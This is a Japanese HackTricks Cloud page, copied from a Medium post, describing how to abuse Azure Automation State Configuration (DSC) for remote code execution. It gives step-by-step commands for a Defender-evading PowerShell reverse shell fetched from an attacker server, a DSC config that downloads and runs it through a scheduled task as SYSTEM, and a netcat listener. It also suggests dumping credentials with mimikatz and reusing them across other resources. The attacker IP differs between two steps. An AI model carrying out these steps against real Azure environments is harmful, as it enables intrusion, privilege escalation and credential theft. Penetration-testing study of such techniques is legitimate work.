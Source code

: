 # Az - State Configuration RCE

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

**この投稿は** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe) **からコピーされました**

### リモートサーバー (C2) インフラストラクチャの準備 <a href="#f0fa" id="f0fa"></a>

リモートサーバー "40.84.7.74"（Kaliボックス）から、NishangのInvoke-PowerShellTcp.ps1ペイロードの簡略版をホストします。ペイロード名は "RevPS.ps1" です。Windows DefenderによってNishangスクリプトが何らかの理由で削除されないようにするため（もしくはファイルをディスクにドロップしたい場合）、Defenderを回避することができる軽量版がこちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。これはKaliボックス上のシンプルなPython Simple Serverによってホストされます。

### ステップ 1 — ファイルの作成 <a href="#89de" id="89de"></a>

別のDSC設定ファイルを作成する必要があります。テンプレートはこちらからダウンロードできます：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。この設定ファイルは、以前使用した同じファイル書き込み機能を使用します。今回は、リモートサーバーからペイロードをダウンロードして実行するコードが含まれています。また、_ComputerManagementDsc_ モジュールから利用可能なスケジュールタスク機能を使用しています。スケジュールタスク機能は、後で実行とSYSTEM権限の取得において重要な役割を果たします。

VMに設定を公開するために使用されるスクリプトもダウンロードします。こちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

これらのファイルはテンプレートとして機能します。**使用している変数名やパラメータを記入する必要があります**。これには、リソース名、ファイルパス、使用している外部サーバー/ペイロード名が含まれます。コード内のコメントを参照してください。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ステップ 2 — 設定ファイルの圧縮 <a href="#c2c2" id="c2c2"></a>

2つのファイルを作成したら、**‘reverse\_shell\_config.ps1’** ファイルをzip圧縮して、ストレージアカウントに送信できるようにします
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### ステップ 3 — ストレージコンテキストの設定とアップロード <a href="#bed9" id="bed9"></a>

再度、私のストレージアカウントのコンテキストを設定します。これは既に完了しています。私はすでに '**azure-pentest**' という名前のコンテナを持っているので、ここに公開します：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### ステップ 4 — Kali Box の準備 <a href="#20fb" id="20fb"></a>

Kali box では、PowerShell ペイロードを _wget_ で簡単に取得できます。生のリバースシェルスクリプトはこちらにあります: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

リバースシェルスクリプトを編集し、実行された際にWindows VMが接続先を知るために、私たちのパラメータを追加する必要があります。私の場合、以下を追加しました：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### ステップ 5 — 設定ファイルの公開 <a href="#9ad6" id="9ad6"></a>

次に、設定ファイルを実行します。私はデスクトップに公開するように設定していますが、視覚的にわかりやすいためですが、ほぼどこにでも公開できます。数分後、リバースシェルスクリプトが公開されたことがわかります！

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ステップ 6 — ペイロードのホストとリスナーの設定 <a href="#c55f" id="c55f"></a>

設定を公開したら、ペイロードをホストするためにポート80でPython SimpleHTTPServerを同時に開始し、接続をキャッチするためにnetcatリスナーを設定します：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
スケジュールされたタスクが実行され、ペイロードが取得され、**SYSTEM** レベルの権限でメモリ内で実行されたことがわかります！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### まとめ <a href="#1ec2" id="1ec2"></a>

これで多くの可能性が開かれます。**SYSTEM** としてシェルを実行しているので、mimikatzを使ってクレデンシャルをダンプすることができます（クラウドリソースのEDRの成熟度によってはリスクがあるかもしれません）。クレデンシャルをダンプすると、これらを異なるリソース間で再利用できる可能性が高くなります。最後に、重要なポイントは、これを1つのVMに限定するのではなく、複数のVMにこの設定を適用する可能性があるということです。

このノートで、Azure Automation DSCの冒険は終わりです！楽しんで、多くを学び、独自の創造性でさらに拡張していくことを願っています。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの**会社を広告したい、または**HackTricksをPDFでダウンロード**したい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
